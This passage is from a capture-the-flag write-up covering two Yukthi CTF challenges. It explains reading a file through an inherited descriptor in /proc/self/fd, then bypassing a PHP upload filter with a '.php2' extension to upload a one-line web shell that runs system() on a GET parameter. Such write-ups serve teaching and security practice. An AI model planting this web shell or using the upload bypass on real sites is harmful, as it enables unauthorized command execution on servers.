 From the source code, we know that the binary loads `mortys_memory.mem` file but then sets the low priv user's uid and calls the shell. But when in that shell we can get into the process directory of that process and see the filesd which are loaded by the process.

`/proc/self/fd` will land us directly into the process's file discriptor directory. We can see our file is mapped to descriptor 3. But when try reading, it doesn't let us.

![alt text](/commons/posts/2024-03-22-yukthi-ctf-writeups/image-6.png)

But there is a trick with wich we can use `cat` and read the descriptor content.

Feeding the descriptor to `cat` by redirecting it will give us the flag.

![alt text](/commons/posts/2024-03-22-yukthi-ctf-writeups/image-7.png) 

## Backrooms

This challenge also has two missions. 

### Mission 1
For the initial mission, there will be an php endpoint in the page which has file upload funtionality. We can upload files, but there will by some restrictions, like we can't upload files with `.php` extensions. It can be easily bypassed if we use `.php2` extension instead.

The php payload i used for this is:
```php
<?php system($_GET['cmd']); ?>
```
